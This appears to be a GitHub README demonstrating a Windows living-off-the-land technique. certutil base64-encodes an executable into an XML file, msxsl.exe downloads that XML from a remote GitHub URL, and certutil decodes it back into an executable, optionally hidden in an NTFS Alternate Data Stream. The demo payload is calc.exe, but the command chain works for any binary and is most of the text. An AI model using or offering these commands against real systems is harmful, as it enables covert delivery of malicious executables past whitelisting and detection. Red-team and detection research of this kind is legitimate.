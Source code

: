 # Use-msxsl-to-download-file

## Prepare payload XML file
```
certutil -encode C:\Windows\System32\calc.exe calc_payload.txt
```

Now copy the certutil encoded payload from calc_payload.txt and insert into calc_xsl.xml between `<TEST> </TEST>`


### Use MSXSL to download XML with certutil encoded payload
```
msxsl.exe "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc_xsl.xml " "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/xsl.xml" -o <filename>

certutil -decode <filename> calc.exe
```

### Use MSXSL to download XML with certutil encoded payload and save to ADS:
```
msxsl.exe "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc_xsl.xml" "https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/xsl.xml" -o <filename>:<ADS name>

certutil -decode <filename>:<ADS name> calc.exe
```
